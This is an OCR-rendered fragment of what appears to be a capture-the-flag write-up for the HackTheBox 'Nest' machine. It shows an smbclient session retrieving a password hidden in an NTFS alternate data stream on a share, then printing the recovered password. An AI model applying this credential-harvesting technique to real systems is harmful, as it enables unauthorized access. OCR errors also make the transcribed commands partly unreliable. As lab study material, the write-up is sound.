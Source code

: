 ![](Maszyny/Windows/Nest/Pasted%20image%2020210827231433.png)

smb: \C. Smith\HQK Reporting > get "Debug Mode Password.txt":Password
getting file \C.Smith\HQK Reporting\Debug Mode Password.txt: Password of size 15 as Debug Mode Password.txt: Password (0.1 Kilobytes/sec) (average 0.1 Kilobytes/sec)
smb: \C. Smith\HQK Reporting > exit
-(kali kali)-[~/htb/nest/allfiles ]
Es is
"Debug Mode Password.txt:Password
IT
Production
Reports
Shared
-(kali kali)-[w/htb/nest/allfiles]
cat Debug\ Mode Password.txt: Password
WBQ201953D8w
